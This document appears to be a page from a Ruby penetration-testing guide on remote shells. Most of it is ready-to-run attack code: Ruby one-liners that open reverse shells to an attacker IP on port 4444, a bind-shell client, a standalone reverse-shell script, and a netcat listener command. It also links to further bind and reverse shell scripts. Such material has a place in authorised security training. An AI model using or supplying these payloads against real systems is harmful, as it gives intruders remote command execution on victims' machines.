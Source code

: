 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line\(shell\).

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell

from terminal

```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```

since `192.168.0.15` is the victim IP

## Reverse shell

Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run

```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't want to rely on `cmd.exe`

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

## Bind and Reverse shell

This is an awesome implementation for a standalone [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by \[Hood3dRob1n\]\[3\] on GitHub . The bind shell requires authentication while reverse is not.

\[3\]: [https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)

